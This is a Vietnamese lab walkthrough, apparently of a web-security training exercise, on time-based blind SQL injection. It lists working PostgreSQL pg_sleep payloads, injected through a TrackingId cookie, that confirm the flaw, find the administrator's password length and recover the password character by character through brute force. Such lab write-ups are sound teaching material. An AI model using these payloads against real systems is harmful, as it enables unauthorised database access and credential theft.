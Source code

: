 # Blind SQL injection with time delays and information retrieval

Bài lab này yêu cầu ta khai thác thông tin dữ liệu của quản trị viên với lỗ hổng Blind SQL Injection Time Delays.

Ném vào Burp và ta thấy có phần TrackingID có thể thay đổi được bên trong Cookie

![](https://cdn.discordapp.com/attachments/1124588087931043891/1137246879382519879/image.png)

Ta thử thay đổi TrackingID :
- `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
- `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

Ở điều kiện 1=1(True) thì xuất hiện độ trễ khi nhận về response còn ở điều kiện 1=2(False) thì không xuất hiện độ trễ, ta sẽ lợi dụng lỗ hổng này để kiểm tra từng kí tự mật khẩu của administrator.
Ta sẽ kiểm tra xem có tài khoản `administrator` không :
- `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
Ta thấy độ trễ khi trả về response nên có tài khoản administrator.
Tiếp theo ta kiểm tra xem có bao nhiêu kí tự bên trong password :
- `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
- `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
- `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
...
- `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`( tới đây thì response trả về rất nhanh, vậy là chỉ có 20 kí tự trong password)

Tiếp theo ta kiểm tra từng kí tự của password:
- `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Ném vào Intruder và brute force, nếu thấy trường hợp nào xuất hiện độ trễ thì đó là 1 phần của `password`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1137250784766087168/image.png)

Làm tương tự với những kí tự tiếp theo và ta sẽ có password.

